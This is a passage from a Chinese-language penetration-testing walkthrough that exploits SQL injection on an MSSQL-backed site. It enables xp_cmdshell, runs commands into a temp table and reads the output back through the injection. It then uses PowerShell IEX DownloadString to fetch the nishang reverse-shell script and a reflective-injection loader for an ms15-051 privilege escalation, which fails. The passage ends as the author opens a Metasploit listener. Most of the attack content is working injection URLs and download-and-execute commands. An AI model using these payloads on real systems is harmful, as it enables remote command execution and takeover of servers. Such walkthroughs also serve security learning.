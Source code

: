 这个语句测试数据库的权限，发现有延时，证明是有数据库的权限是dba的权限，打开 xp_cmdshell 的限制，创建临时表执行命令并将结果写入新创建的临时表中：



```
EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE；  
http://10.101.101.13/?page=1;create table temp(id int identity(1,1),a varchar(8000));--
http://10.101.101.13/?page=1;insert into temp exec master.dbo.xp_cmdshell 'ipconfig /all';--
```

读取结果：

```
http://10.101.101.13/?page=1
 and (select substring((select a from temp for xml auto),1,4000))&gt;0--
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7eu50r7mj21690qo4qp.jpg)

看上去这个网站是站库分离的网站，用这种方法执行 ping 10.101.101.16 ，发现数据库服务器可以通外网，获取这些信息之后，我 drop table temp 删除创建的临时表。在获取到这么多信息了之后，在自己机子上开一个 Web 站点下载 nishang 的 powershell 的反弹脚本到自己的 Web 服务器上：[https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

nv -lvvp 8888 监听等待反弹，然后执行：

```
http://10.101.101.13/?page=1;exec
 master..xp_cmdshell 'powershell IEX (New-Object Net.WebClient).DownloadString('
http://10.101.101.13/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp
 -Reverse -IPAddress 10.101.101.13 -port 8888';--
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7ewohnc3j20ke0dndnm.jpg)

但是数据库权限并不高，现在我将用 Powershell 远程加载并执行exe的脚本执行 **ms15-051** ，Ps 脚本地址：[https://github.com/clymb3r/PowerShell/blob/master/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps1](https://github.com/clymb3r/PowerShell/blob/master/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps1) ，执行：

```
IEX (New-Object Net.WebClient).DownloadString('
http://10.101.101.13/Invoke-ReflectivePEInjection.ps1');Invoke-ReflectivePEInjection
 -PEUrl 
http://10.101.101.13/x86/ms15-051.exe
 -ExeArgs "cmd" -ForceA
```

可以看到提权没有成功，并且换一个 Exploit 也没成功：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7ezcr8dkj20kh0dkn67.jpg)

继续使用 msf 探测，开启 msf 监听功能：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7f062ybij20jx0dg0zm.jpg)

